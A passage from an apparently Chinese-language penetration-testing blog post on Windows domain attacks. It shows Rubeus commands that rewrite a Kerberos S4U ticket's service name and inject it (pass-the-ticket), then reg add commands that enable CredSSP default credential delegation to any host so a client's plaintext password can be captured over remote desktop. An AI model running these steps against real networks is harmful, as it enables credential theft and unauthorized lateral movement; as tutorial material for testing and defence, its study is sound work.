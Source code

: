 此时我们用 rubeus.exe describe /ticker:S4Ubase64 加密的票据

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141313.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141313.png)

可以发现 servicename 并没有指定某个服务，仅仅只有一个账户. 即发生了服务名称缺失的问题。很简单，把票据修改一下就行了. 网上很多说用这个工具  
[https://www.pkisolutions.com/tools/asn1editor/](https://www.pkisolutions.com/tools/asn1editor/)  
但实际上 rubeus 也能完成票据修改`rubeus.exe tgssub /ticket:xxx /altservice:cifs/test1 /ptt`

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141325.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141325.png)

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141339.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141339.png)

完事

credssp 导出用户明文密码
----------------

CredSSP 协议的目的是将用户的明文密码从 CredSSP 客户端委派给 CredSSP 服务器。 通常运用于远程桌面服务。

我们在配置这个协议时，一般在组策略编辑器里配置。

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217143231.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217143231.png)

Allow delegating default credentials 表示在通过使用受信任的 X509 证书或 Kerberos 实现服务器身份验证时自动发送当前用户的凭据，即明文密码。

Allow delegating default credentials with NTLM-only server authentication 表示在通过 NTLM 实现服务器身份验证时自动发送当前用户的凭据，即明文密码。

这几个属性在注册表里对应 HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation。

### 攻击原理

那么这样看，这个攻击流程就很自然了。  
我们要获得两台机器，一台机器当作远程桌面的服务器，一台当作远程桌面的客户端。  
在客户端上配置组策略（CREDSSP），使其在远程桌面身份验证时发送明文密码。  
然后开始远程桌面验证，在服务器上获得客户端发来的明文密码.

### 实操

1. 通过修改注册表，改变组策略身份验证的凭据策略 (选一个），这一步需要管理员权限，本地或域管

```
reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1

reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1

reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1

reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1

reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d *

reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d *
```
